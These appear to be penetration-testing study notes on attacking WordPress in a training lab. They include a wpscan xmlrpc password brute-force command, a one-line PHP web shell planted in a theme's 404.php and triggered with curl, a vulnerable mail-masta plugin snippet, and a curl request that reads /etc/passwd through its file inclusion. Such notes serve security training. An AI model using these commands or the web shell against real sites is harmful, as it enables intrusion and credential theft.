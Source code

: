 # Attacking WordPress

## Login Bruteforce

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

## Code Execution

If you can get to edit a theme with php code, then you can do like this:

On an uncommon page: uncommon page such as 404.php

```php
<?php
    system($_GET[0]);
?>
```

Then:

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

Another method is to use metasploit: [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/)


## Leveraging Known Vulnerabilities

### Vulnerable Plugins - mail-masta

Its code is so vulnerable:

```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

can be exploited like:

```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### Vulnerable Plugins - wpDiscuz

Can use this exploit: [Plugin wpDiscuz 7.0.4](https://www.exploit-db.com/exploits/49967)

